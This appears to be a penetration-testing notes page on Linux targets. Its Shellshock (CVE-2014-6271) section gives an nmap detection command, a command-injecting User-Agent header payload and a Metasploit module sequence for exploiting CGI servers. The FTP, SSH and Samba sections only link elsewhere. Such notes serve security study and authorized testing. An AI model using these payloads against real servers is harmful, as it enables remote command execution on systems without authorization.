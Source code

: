 # Linux

## Shellshock vulnerability

{% embed url="https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf" %}
PPT by owasp
{% endembed %}

{% embed url="https://blog.cloudflare.com/inside-shellshock/" %}
walkthrough of the vuln
{% endembed %}

### PoC

[https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

### nmap scan&#x20;

```
nmap $IP --script=http-shellshock --script-args "http-shellshock.url=/path/file.cgi
```

### exploitation

```javascript
User Agent: () { :; }; echo; echo; /bin/bash -c 'type your cmd here'
```

### metasploit

```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec

#options:
set RHOSTS $IP
set TARGETURL /path/to/file.cgi
exploit
```



## FTP

* for FTP you can refer to:&#x20;

{% content-ref url="../../assesment-methodology/enumeration-techniques/ftp.md" %}
[ftp.md](../../assesment-methodology/enumeration-techniques/ftp.md)
{% endcontent-ref %}

## SSH

* refer this page for ssh:

{% content-ref url="../../assesment-methodology/enumeration-techniques/ssh.md" %}
[ssh.md](../../assesment-methodology/enumeration-techniques/ssh.md)
{% endcontent-ref %}

## Samba

* for samba refer:

{% content-ref url="../../assesment-methodology/enumeration-techniques/samba-smb.md" %}
[samba-smb.md](../../assesment-methodology/enumeration-techniques/samba-smb.md)
{% endcontent-ref %}



